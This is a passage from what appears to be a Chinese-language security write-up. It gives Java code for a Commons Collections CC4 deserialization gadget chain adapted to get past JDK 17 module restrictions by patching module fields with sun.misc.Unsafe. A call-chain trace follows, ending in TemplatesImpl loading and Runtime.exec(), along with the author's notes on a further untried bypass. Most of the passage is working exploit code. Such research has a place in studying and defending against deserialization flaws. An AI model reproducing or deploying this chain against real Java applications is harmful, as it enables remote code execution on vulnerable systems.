ClosureTransformer ClosureTransformer = new ClosureTransformer(transformerClosure);
InvokerTransformer invokerTransformer = new InvokerTransformer("getDeclaredField",new Class[]{String.class}, new Object[]{"theUnsafe"});
ConstantTransformer constantTransformer = new ConstantTransformer(Class.forName("sun.misc.Unsafe"));
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,ClosureTransformer,invokerTransformer3,invokerTransformer4,constantTransformer2,invokerTransformer5};
Transformer keyTransformer = new ChainedTransformer(transformers);
// patchModule(invokerTransformer.getClass(),aClass);
System.out.println(TrAXFilter.getModule().getName());
System.out.println(invokerTransformer.getClass().getModule().getName());
TransformingComparator transformingComparator = new TransformingComparator(keyTransformer);
PriorityQueue priorityQueue = new PriorityQueue(2,transformingComparator);
patchModule(CC4_17.class,priorityQueue.getClass());
Field size = priorityQueue.getClass().getDeclaredField("size");
size.setAccessible(true);
size.setInt(priorityQueue, 2);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(priorityQueue);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
private static void patchModule(Class clazz,Class goalclass){
try {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
Class currentClass = clazz;
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
} catch (Exception e) {
}
}
public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
调用链
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform() ---> 这里开始构造Unsafe对象，得到Filed对象
ClosureTransformer.transform() ---> 这里形成一个岔路，去构造setAccessible
TransformerClosure.transform()
InvokerTransformer.transform() ---> 这里执行setAccessible，然后又回到主线
InvokerTransformer.transform() ---> 执行get()，得到Unsafe对象
InvokerTransformer.transform() ---> 执行getAndSetObject，修改pn
ConstantTransformer.transform() --->这里回到正常CC4链子
InstantiateTransformer.transform()
newInstance()
TrAXFilter#TrAXFilter()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses
newInstance()
Runtime.exec()
0x05 遗漏
写文章的时候看代码越看越感觉漏掉了什么，还记得我前面说到的一个利用尝试"null"，这个地方我分析的时候，把memberClass想成null了，其实不是，是memberClass.getModule()为null
那么有点感觉了么少年？我tm直接把这两个的Moudle都用Unsafe改成null呗，经过俺的改造，Unsafe对象调用两次完全不是问题啊
感觉是可行的，但是我懒，俺要去吃饭了，都9点了才写完！！